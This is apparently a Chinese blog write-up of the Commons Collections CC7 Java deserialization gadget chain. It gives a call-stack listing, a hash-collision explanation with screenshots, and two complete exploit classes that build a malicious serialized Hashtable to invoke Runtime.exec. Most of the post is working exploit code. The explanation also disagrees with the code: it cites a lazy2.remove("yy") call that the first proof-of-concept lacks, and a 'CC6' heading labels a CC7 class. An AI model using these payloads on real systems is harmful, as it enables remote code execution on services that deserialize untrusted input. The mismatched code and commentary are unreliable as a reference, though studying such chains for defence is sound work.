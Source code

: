 ```java
java.util.Hashtable.readObject
java.util.Hashtable.reconstitutionPut
org.apache.commons.collections.map.AbstractMapDecorator.equals
java.util.AbstractMap.equals
org.apache.commons.collections.map.LazyMap.get
org.apache.commons.collections.functors.ChainedTransformer.transform
org.apache.commons.collections.functors.InvokerTransformer.transform
java.lang.reflect.Method.invoke
sun.reflect.DelegatingMethodAccessorImpl.invoke
sun.reflect.NativeMethodAccessorImpl.invoke
sun.reflect.NativeMethodAccessorImpl.invoke0
java.lang.Runtime.exec
```

## POC

```java
package org.example;

import java.io.*;
import java.lang.reflect.Field;
import java.util.*;
import java.util.Hashtable;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class CC7 {
    public static void main(String args[]) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        String cmd = "calc";

        Transformer[] faketransformer = new Transformer[1];
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(faketransformer);
        Map hashmap1 = new HashMap();
        Map hashmap2 = new HashMap();

        Map lazy1 = LazyMap.decorate(hashmap1,chainedTransformer);
        lazy1.put("yy",1);
        Map lazy2 = LazyMap.decorate(hashmap2,chainedTransformer);
        lazy2.put("zZ",1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazy1,1);
        hashtable.put(lazy2,1);

        //反射
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(baos);
        out.writeObject(hashtable);
        out.flush();
        out.close();
        byte[] bytes = baos.toByteArray();
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream in = new ObjectInputStream(bais);
        in.readObject();


    }
}

```

## 分析

入口点位于hashtable#readObject方法

![image-20240602162239856](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240602162239856.png)

readObect中调用了reconstitutionPut

![image-20240602162353025](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240602162353025.png)

这里涉及到对hash和index值的处理.y比z小1，经过第一轮循环后h的差值就差31，所以我们可以控制第二个字符是y与Z，前面比后面大31刚好抵消了这个差距

e.key设置为Lazymap对象，但由于Lazymap并没有equals方法，会调用父类AbstractMapDecorator#equals

![image-20240602195957494](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240602195957494.png)

this.map被控制为我们传入的hashmap,hashmap并没有equals方法，转而调用父类AbstractMap#equals

![image-20240602200300113](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240602200300113.png)

m来自于传入的o,这里有两个需要注意的点，即m.size()的控制一集value不能为null,因此在代码的后续，进行了lazy2.remove("yy");的移除操作控制size，最终调用到m.get(),m为lazymap对象。

## CC6

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7_hashtable {
    public static void main(String args[]) throws NoSuchFieldException, IOException, IllegalAccessException, ClassNotFoundException {
        String cmd = "calc";

        Transformer[] faketransformer = new Transformer[]{
                new ConstantTransformer(1)
        };
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(faketransformer);
        Map hashMap = new HashMap();
        Map lazy = LazyMap.decorate(hashMap,chainedTransformer);

        Hashtable table = new Hashtable();
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazy,"1");
        table.put(tiedMapEntry,"2");
        lazy.remove("1");
        //反射
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(baos);
        out.writeObject(table);
        out.flush();
        out.close();
        byte[] bytes = baos.toByteArray();
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream in = new ObjectInputStream(bais);
        in.readObject();
    }
}

```

